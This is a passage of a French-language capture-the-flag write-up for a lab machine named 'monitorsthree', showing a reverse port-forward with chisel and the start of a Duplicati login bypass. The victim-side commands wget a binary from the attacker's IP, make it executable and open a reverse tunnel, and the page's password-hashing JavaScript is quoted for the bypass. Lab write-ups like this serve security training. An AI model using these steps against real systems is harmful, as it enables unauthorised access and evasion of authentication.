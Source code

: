 Bon du coup on m'a apprit que je pouvais faire du port forwarding sans passer par ssh et sans avoir besoin d'un MDP :)

Donc ici je vais utiliser chisel qui va me permettre de me connecter au port 8200, car en faisant un 
`netstat -pentula` pour regarder les connections on voyait qu'il y avait un port 8200 établit.

Et en cherchant, j'ai découvert que c'était le port d'une interface web pour duplicati, l'outil qui gère les backups :D

Donc mise en place du port forwarding:

```bash
(My PC):
chisel server -p 9009 --reverse

(My PC):
# On télécharge le amd64.gz de chisel pour le transférer sur la cible
➜  Bureau gunzip chisel_1.10.0_linux_amd64.gz
# Mise en place du serveur python pour le transfert
➜  Bureau python3 -m http.server 8888

(PC Victime):
# Dans /tmp ou on a les droits on télécharge le file
marcus@monitorsthree:/tmp$ wget http://10.10.16.4:8888/chisel_1.10.0_linux_amd64
# On donne les perms pour exec
marcus@monitorsthree:/tmp$ chmod +x chisel_1.10.0_linux_amd64
# Puis on établi le port forwarding
marcus@monitorsthree:/tmp$ ./chisel_1.10.0_linux_amd64 client 10.10.16.4:9009 R:8200:localhost:8200
2024/09/19 22:10:26 client: Connecting to ws://10.10.16.4:9009  
2024/09/19 22:10:26 client: Connected (Latency 20.124322ms)

# 10.10.16.4 = My IP
# 9009 = le port d'écoute du serveur chisel
# 8200 = le port que je souhaite pouvoir avoir accès depuis mon pc
```

Il reste plus qu'à revenir sur notre pc, on fait une requête dans notre navigateur:

-> http://localhost:8200/

et Pouf une page de login duplicati qui nous demande un password ;)

J'inspecte le code sources et les scripts Js qui sont appelés et on voit un bout de code intéressant.

Et j'ai vu qu'on peut bypass les mdp duplicati lorsqu'on a à notre disposition la passphrase.
- https://medium.com/@STarXT/duplicati-bypassing-login-authentication-with-server-passphrase-024d6991e9ee

```js
var saltedpwd = CryptoJS.SHA256(CryptoJS.enc.Hex.parse(CryptoJS.enc.Utf8.parse($('#login-password').val()) + CryptoJS.enc.Base64.parse(data.Salt)));

var noncedpwd = CryptoJS.SHA256(CryptoJS.enc.Hex.parse(CryptoJS.enc.Base64.parse(data.Nonce) + saltedpwd)).toString(CryptoJS.enc.Base64);
```
